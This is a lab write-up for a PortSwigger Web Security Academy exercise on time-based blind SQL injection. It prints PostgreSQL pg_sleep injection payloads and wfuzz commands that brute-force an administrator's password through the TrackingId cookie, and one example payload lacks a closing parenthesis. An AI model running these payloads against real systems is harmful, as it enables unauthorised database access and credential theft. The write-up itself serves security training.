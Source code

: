 # Blind SQL injection with time delays and information retrieval
[Click here to see the description of the lab.](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)
## Description:
This challenge is about Blind SQL injection based on Time delay. Blind SQL injection doesn't return a response containing the results of the query or any database errors, but it can change some content on the web page, or send an error status code as an HTTP response, in this case neither case is met. To solve this challenge, we rely on the time the query took to be executed, normal time means a condition is not met, more time means a condition is met.
## Writeup:
The challenge's description reveals that the **session cookie** is vulnerable, and we can use it to retrieve the `password` of the `administrator` from the `users` table.
We can use BurpSuite to intercept the request and take a look at the cookie:
![Screenshot from 2024-12-17 16-48-08](https://github.com/user-attachments/assets/24afbb04-d5b1-4d12-a52b-5142cd8b8d02)
We can verify that it is a time based sql injection by sending this payload (we suppose that is it a PostgresSQL database) at the end of the TrackiId cookie:
```
'|| pg_sleep(5)--
```
The response was delayed, so the query works.
Since we can't see the result of  the query injected, and we want to extract the password of the administrator, we can make a delay if the first character of the password equals 'a', the payload should look similar to this:
```
'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND substr(password, 1, 1)='a'--
```
If the condition was correct, the query will be delayed by 5 seconds, and we now know the first character of the password. Following this method manually is impossible since the password can be any length and contain any character, Wfuzz tool can help us.
You can inject a range of numbers, list of words or characters in your payload by writing FUZZ in the chosen injection point, and with the following command we can know the length of the password:
```
wfuzz -c -z range,0-30 -H "Cookie: TrackingId=zJ1zKcy39v1HQPaY'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND LENGTH(password)=FUZZ)--; session=zgorPVqzeSjnbS5aGVnU7BaAjYjT022D" -u "https://0a4200b7042a32e28467c84d00a100aa.web-security-academy.net/" --filter "r.reqtime>=4"
```
The option `--filter r.reqtime>=4` helps us filter the response that took more than 5 seconds, which means the condition is true.
And the result was:
![Screenshot from 2024-12-17 17-00-12](https://github.com/user-attachments/assets/3cb0ab9b-2a61-4a0c-b3a8-3ce5839b7342)
The password's length is 20, now we can test each index with a set of characters and numbers stored in `ascii.txt` file. The Command would be:
```
wfuzz -c -z range,1-20 -z file,/home/kali/Desktop/ascii.txt -H "Cookie: TrackingId=zJ1zKcy39v1HQPaY'||(SELECT pg_sleep(5) FROM users WHERE username='administrator' AND substr(password, FUZZ, 1)='FUZ2Z')--; session=zgorPVqzeSjnbS5aGVnU7BaAjYjT022D" -u "https://0a4200b7042a32e28467c84d00a100aa.web-security-academy.net/" --filter "r.reqtime>=4"
```
And now we got the admin's password from the database.
![Screenshot from 2024-12-17 17-01-04](https://github.com/user-attachments/assets/297743e3-e402-4c7b-9660-64f26e8e5d76)
